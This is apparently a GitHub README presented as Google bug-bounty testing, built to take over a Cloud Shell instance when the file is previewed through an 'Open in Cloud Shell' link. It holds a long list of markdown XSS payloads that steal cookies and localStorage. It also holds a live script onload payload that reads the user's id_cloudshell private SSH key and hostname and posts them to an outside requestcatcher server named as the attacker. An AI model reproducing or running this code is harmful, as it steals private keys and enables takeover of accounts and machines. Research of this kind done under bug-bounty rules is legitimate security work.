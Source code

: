 # Google VRP testing  
Google cloudshell instance take over (as root)

<!-- [![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?page=editor&cloudshell_git_repo=https:%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta.git&cloudshell_open_in_editor=README.md) -->



[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?cloudshell_git_repo=https%3A%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta.git&page=editor&cloudshell_tutorial=README.md)


## Getting Started 

just need to preview this file to see the magic 

### Test

[XSS](javascript:prompt(document.cookie))
[XSS](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[XSS]: (javascript:prompt(document.cookie))
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0aprompt(1))
[XSS](javascript://%0d%0aprompt(1);com)
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)
[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](vbscript:alert(document.domain))
[XSS](javascript:this;alert(1))
[XSS](javascript:this;alert(1&#41;)
[XSS](javascript&#58this;alert(1&#41;)
[XSS](Javas&#99;ript:alert(1&#41;)
[XSS](Javas%26%2399;ript:alert(1&#41;)
[XSS](javascript:alert&#65534;(1&#41;)
[XSS](javascript:confirm(1)
[XSS](javascript://www.google.com%0Aprompt(1))
[XSS](javascript://%0d%0aconfirm(1);com)
[XSS](javascript:window.onerror=confirm;throw%201)
[XSS](�javascript:alert(document.domain&#41;)
![XSS](javascript:prompt(document.cookie))\
![XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
![XSS'"`onerror=prompt(document.cookie)](x)\

[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')


### Test

<script onload="{   
    var file_results = []  
    // this scape the container and get the ssh id_cloudshell private key
    read_file('file:///../id_cloudshell')          
    // getting the hostname (external connection)
    read_file('file:///etc/hostname')      
         
    setTimeout(function(){ 
        send_files(file_results)    
    },5000)  
 
    // function to read any file given the path with file protocol per example 'file:///etc/hostname'
    function read_file(file_to_read){
        var container_url = 'https://' + location.host + '/files/?uri='
        var get_file_id_url = container_url + file_to_read
        console.log(get_file_id_url) 
        fetch(get_file_id_url) // convert response to json 
            .then(response => { return response.json() } )
            .then(json => {
                var container_download_url = 'https://' + location.host + '/files/download/?id='
                var download_url = container_download_url + json.id
                fetch(download_url) 
                    .then(response => { return response.text() } )
                    .then(text => { 
                        console.log(file_to_read + ' '+ text)
                        file_results.push(file_to_read + ' '+ text)  
                    })
            })  
    }
 
    function send_files(result){ 
         // need to set netcat to listen per example nc -lvvv testtesttest.requestcatcher.com 55555
         let attacker_server =  'aefr43qt4.requestcatcher.com'
         fetch(attacker_server, {
                method: 'post',
                body: JSON.stringify(result)
         })
    }
 
}"> 
  
 